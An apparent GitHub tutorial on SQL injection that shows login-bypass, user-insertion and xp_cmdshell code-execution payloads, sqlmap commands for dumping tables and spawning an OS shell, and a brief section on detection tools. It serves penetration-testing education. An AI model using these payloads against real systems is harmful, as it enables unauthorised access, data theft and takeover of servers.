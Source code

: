 # SQL INJECTION
### SQL INJECTION IS OF 3 MAIN TYPES:
* In-band SQLi: attacker uses the same communication channel to perform the attack and retrieve the results
* Blind/inferential SQLi: attacker has no error messages from the system with which to work, but rather simply sends a malicious SQL query to the database
* Out-of-band SQL injection: attacker uses different communication channels (such as database email functionality, or file writing and loading functions) to perform the attack and obtain the results

### USES OF SQLi ATTACK
* Authentication and authorisation bypass
* Information disclosure
* data integrity compromise
* data availability compromise
* Remote Code execution (RCE)

## PERFORMING SQL INJECTION
### BLIND SQLi
we enter a malicious SQL query along with some characters to handle the syntax of the server's code. for example:<br>
```1' or 1=1 --```<br>
![image](https://user-images.githubusercontent.com/56624593/151232264-d9dcd6b9-0205-4a89-b7cd-24205b761c0d.png)<br>
after we hit enter, we can see that we have succesfully logged in.<br>
![image](https://user-images.githubusercontent.com/56624593/151232426-d67c0af8-5640-480b-860b-efc1d9a8270a.png)<br>
we can similarly write a malicious SQL query to create a new user in the database<br>
```1';insert into login values ('johndoe','password'); --```<br>
![image](https://user-images.githubusercontent.com/56624593/151233357-255ec6f9-d5de-4283-96b0-c2f8e6b7fdf8.png)<br>
the new user named johndoe with password as password has been created<br>

### RCE USING SQLi
shell code can be executed on a server that is vulnerable to SQLi <br>
eg:<br>
```1';exec master..xp_cmdshell '<shell command>'; --```<br>
![image](https://user-images.githubusercontent.com/56624593/151235445-9e09e104-344a-402f-8de2-44e05a0f0660.png)<br>
the shell command that is in the SQL query will be executed on the victim server

##SQLi USING SQLMAP
SQLmap is an open source penetration testing tool that is used to test and exploit database servers for SQL injection vulnerabilities.<br>
### sample command to enumerate databases on the server:<br>
```sqlmap -u "<path to the webpage to be tested>" --dbs```<br>
![image](https://user-images.githubusercontent.com/56624593/151587015-afac5eae-4dc0-4598-97e9-4d25164c037f.png)<br><br>
![image](https://user-images.githubusercontent.com/56624593/151587167-08bfaa0e-ae2e-435b-a1d4-49c578c0f290.png)<br>

### sample command to extract tables from a specific database from a vulnerable server:<br>
```sqlmap -u "<path to the webpage to be tested>" -D <database> --tables```<br>
![image](https://user-images.githubusercontent.com/56624593/151587548-ceb35020-5f94-4c15-963d-38f8d508b435.png)<br>

### sample command to extract the contents of a specific table from a database:<br>
```sqlmap -u "<path to the webpage to be tested>" -D <database> -T <table name> --dump```<br>
![image](https://user-images.githubusercontent.com/56624593/151587828-ac885763-968c-4e2e-96bf-ef2fd515cd76.png)<br>

### sample command to spawn a shell on the server using SQLi:<br>
```sqlmap -u "<path to the webpage to be tested>" --os-shell```<br>
![image](https://user-images.githubusercontent.com/56624593/151588160-70d152c5-5e5b-4e46-8ea0-407dda577ca2.png)<br>
now we can run any command we want on the victim system. we can also escalate our privileges to gain complete control over the victim system.


## DETECTING SQLi
There are several tools that can be used to detect SQL injections. eg. SQLmap, DSSS and OWASP ZAP<br>
### use DSSS:<br>
(in the DSSS directory) ```python3 dsss.py -u "<path to the webpage to be tested>"<br>```
![image](https://user-images.githubusercontent.com/56624593/151591106-46590e96-8507-42c2-bb64-4c55bd67fb3a.png)<br>

### use OWASP ZAP:
Owasp ZAP is a huge tool that is capable of doing automated vulnerability assessments of websites on its own. it can test websites for most vulnerabilities, and give them scores according to their severity. It can also generate assessment reports in various formats.
